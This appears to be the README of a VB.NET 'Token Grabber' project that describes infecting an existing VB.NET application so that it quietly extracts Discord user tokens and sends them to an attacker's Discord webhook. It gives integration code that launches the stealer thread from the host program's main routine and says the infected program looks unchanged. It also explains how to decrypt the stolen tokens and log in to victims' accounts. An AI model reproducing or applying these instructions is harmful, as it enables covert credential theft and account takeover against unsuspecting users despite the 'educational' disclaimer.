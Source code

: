 # Token Grabber VB.NET Framework 4.7.2

## Description

Token Grabber is a VB.NET application designed to demonstrate the potential consequences of unauthorized access to user tokens. This project is intended for educational purposes only and should not be used for malicious activities. The author of this project is not responsible for any misuse or damage caused by this application. This project is a module for infect a existing VB NET Project; no additional packages need to be installed (very discreet).

---

## Features

- Extracts user tokens from the Windows system.
- Sends the extracted tokens to a Discord channel using a webhook.
- Demonstrates the importance of securing user tokens and the ease with which a basic application can extract tokens.

---

## Installation

1. Ensure you have the .NET Framework 4.7.2 installed on your system.

2. Download the [DiscordTokenGrab.vb](DiscordTokenGrab.vb) file and import it into your project.

3.  Modify the Discord WebHook channel Url 
   
   ```visual-basic
   Dim webhookurl As String = "URL HERE"
   ```

4. Add the following code to your main module:
   
```visual-basic
   Imports System.Threading
   
   Module Main
   
       Sub main()
   
           Dim tokenGrab As Thread = New Thread(AddressOf connectD)
   
           tokenGrab.Start()
   
           'rest of your code here
   
       End Sub
   End Module
```

5.  Intall the requirements for decrypt python scrypt 
   
   ```batch
   pyhton -m pip install -r requirements.txt
   ```
   
   or for linux
   
   ```bash
   pyhton3 -m pip install -r requirements.txt
   ```
   
   

---

## Usage

1. Run the infected application.

2. The application will display the same output as if it were not infected.

3. The encrypted token and the key used for encryption are sent to the Discord channel.
   
   ![Example of a message sent to the Discord channel](https://i.imgur.com/qXDh6gE.png)

4. The hacker can use the [decrypt.py](decrypt.py) script to decrypt the token:
   
   ![Decrypting the token](https://i.imgur.com/lTDVZR9.png)

5. Finally, the hacker can log in to Discord using the [LoginWithToken.js](LoginWithToken.js) script on the [Discord login page](https://discord.com/login).

---

## Disclaimer

This project is for educational purposes only. The author of this project is not responsible for any misuse or damage caused by this application. By using this application, you agree to hold the author harmless and acknowledge that you are solely responsible for any consequences that may arise from using this application.

---

## License

This project is not licensed under any specific license. All rights are reserved.